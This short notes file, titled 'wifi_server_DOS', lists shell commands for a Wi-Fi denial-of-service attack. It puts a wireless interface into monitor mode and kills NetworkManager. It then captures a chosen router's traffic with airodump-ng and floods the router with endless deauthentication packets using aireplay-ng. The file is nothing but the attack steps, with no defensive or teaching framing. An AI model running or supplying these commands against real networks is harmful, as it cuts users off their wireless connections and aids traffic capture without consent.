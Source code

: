
sudo -s


ifconfig wlo1 down


iwconfig wlo1 mode monitor


ifconfig wlo1 up


airmon-ng check wlo1


<(kill NetworkManager  >>  then dhclient  >> then all others)>


airodump-ng -c 6 -w SCAN_test1 --bssid <mac_address_of_router> wlo1


aireplay-ng -0 0 -a <mac_address_of_router> wlo1



# wifi_server_DOS
